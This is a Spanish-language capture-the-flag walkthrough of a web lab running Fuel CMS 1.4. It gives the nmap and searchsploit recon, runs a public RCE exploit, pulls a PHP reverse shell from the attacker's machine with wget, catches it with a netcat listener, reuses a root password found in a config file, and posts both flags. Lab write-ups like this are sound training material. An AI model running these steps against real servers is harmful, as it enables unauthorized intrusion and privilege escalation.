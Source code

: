 # 1) Objetivo

En esta máquina de pentesting web debemos encontrar la flag user.txt y root.txt.

## 2) Reconocimiento y obtener acceso

Lo primero que haremos será usar Nmap para descubrir los puertos abiertos en la máquina y los servicios que corren. Usamos:

```
nmap -sV -A -T4 
```

Mientras se ejecuta nmap, probamos por si existiera un archivo robots.txt y tuviera información interesante. Vemos que nos aparece un directorio llamado /fuel/ el cual no quieren que sea indexado.

![](IMG/Pasted%20image%2020250310220737.png)

Terminado nmap, nos muestra que tenemos abierto el puerto 80, que está corriendo un servidor web con un CMS llamado fuel, y también nos muestra que hay un archivo robots.txt.

![](IMG/Pasted%20image%2020250310220934.png)

Probamos a acceder al directorio /fuel que nos aparece tanto en el archivo robots.txt como en el resultado de nmap, y vemos que hay una pantalla de login, como no tenemos ninguna credencial, poco podemos hacer.

![](IMG/Pasted%20image%2020250310221336.png)

si echamos un vistazo a la pagina principal, encontramos un nombre de usuario y una contraseña para acceder al panel de administración.

![](IMG/Pasted%20image%2020250310221600.png)

probamos a acceder, y podemos sin problema alguno.

![](IMG/Pasted%20image%2020250310221700.png)

Si echamos un vistazo a la documentación, descubrimos que la versión del CMS es la 1.4.

![](IMG/Pasted%20image%2020250310221751.png)

Con esta información, probamos a buscar algún exploit que nos permita obtener acceso en searchsploit (porque de primeras he buscado en metasploit, pero no había ninguno). 

```
searchsploit fuel cms
```

![](IMG/Pasted%20image%2020250310223401.png)

Y descargamos el 50477.py que es un exploit para php.

```
searchsploit -m php/webapps/50477.py
```

![](IMG/Pasted%20image%2020250310233236.png)

Una vez descargado, lo ejecutamos, desde el directorio donde lo hemos descargado.

```
python3 50477.py -u http://10.10.201.54
```

![](IMG/Pasted%20image%2020250311005558.png)

Lo cual nos ha dado una shell en la maquina objetivo, buscaremos la flag de usuario, ya que de momento solo tenemos esos privilegios. Como suponemos que estará en la carpeta home del usuario, primero comprobamos con pwd donde nos encontramos, y luego iremos navegando hasta el directorio home.

![](IMG/Pasted%20image%2020250311005821.png)

Como la shell que tenemos es muy básica, una vez encontremos la ruta donde se encuentra el archivo con la flag, lo abriremos directamente.

![](IMG/Pasted%20image%2020250311010114.png)

**user.txt (flag.txt): 6470e394cbf6dab6a91682cc8585059b**

# 3) Escalada de privilegios

Ya hemos conseguido acceso con permisos de usuario, ahora, trataremos de escalar los privilegios para obtener permisos root. Para hacer esto, usaremos una shell reversa de pentestmonkey que podemos descargar de [aquí](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Una vez tenemos descargado el archivo, lo modificaremos para añadir la ip de nuestra máquina atacante y el puerto por el que queremos que se conecte la shell reversa.

![](IMG/Pasted%20image%2020250311011036.png)

Una vez modificado, como tenemos acceso a la máquina con la shell que hicimos con el exploit, vamos a enviarle este archivo usando wget. así que primero tenemos que crear un servidor web, para que la maquina objetivo pueda descargar el archivo, usaremos en nuestra máquina atacante:

```
python3 -m http.server 80
```

![](IMG/Pasted%20image%2020250311011246.png)

Ahora, usando la shell que tenemos de la máquina objetivo, usamos wget para descargar el archivo.

```
wget http://10.8.16.0/php-reverse-shell.php
```

Veremos que se ha descargado correctamente.

![](IMG/Pasted%20image%2020250311011534.png)

Ahora que ya tenemos el archivo en la máquina objetivo, podemos parar el servidor web que habíamos iniciado, y ahora usaremos netcat para poner a la escucha en el puerto 4444 y así poder recibir la shell reversa cuando la ejecutemos.

```
nc -lvnp 4444
```

![](IMG/Pasted%20image%2020250311011741.png)

Con el puerto a la escucha, usamos el navegador para ejecutar el archivo que tenemos en la maquina objetivo.

![](IMG/Pasted%20image%2020250311011910.png)

Y veremos que hemos recibido la shell reversa.

![](IMG/Pasted%20image%2020250311011940.png)

Como esta shell no es interactiva, no podremos hacer root, así que podemos usar python para conseguir una shell bash, así:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Y ahora sí, tendremos una shell interactiva.

![](IMG/Pasted%20image%2020250311012142.png)

Ahora, usando "su root", deberíamos poder obtener privilegios de root, pero no tenemos la contraseña de root, así que debemos buscarla. Si recordamos, en la pagina principal había instrucciones para configurar el CMS, y entre esas instrucciones nos indicaba donde estaba el archivo de configuración de la base de datos, así que vamos a echarle un vistazo al archivo para ver si está la contraseña de root.

![](IMG/Pasted%20image%2020250311012539.png)

Navegaremos hasta la ruta que nos indican y abriremos el archivo de configuración, una vez abierto, encontraremos la contraseña de root, la cual es mememe

![](IMG/Pasted%20image%2020250311012945.png)


> [!NOTE] Nota
> Todo este proceso, realmente podríamos haberlo hecho antes, pero bueno, en este caso el orden de los factores no altera el producto.


Ahora que ya tenemos la contraseña de root, sí podemos hacer:

```
su root
mememe
```

![](IMG/Pasted%20image%2020250311013309.png)

Y ahora, solo tendremos que buscar la flag y abrir el archivo para encontrar la respuesta.

![](IMG/Pasted%20image%2020250311013423.png)

**Root.txt: b9bbcb33e11b80be759c4e844862482d**
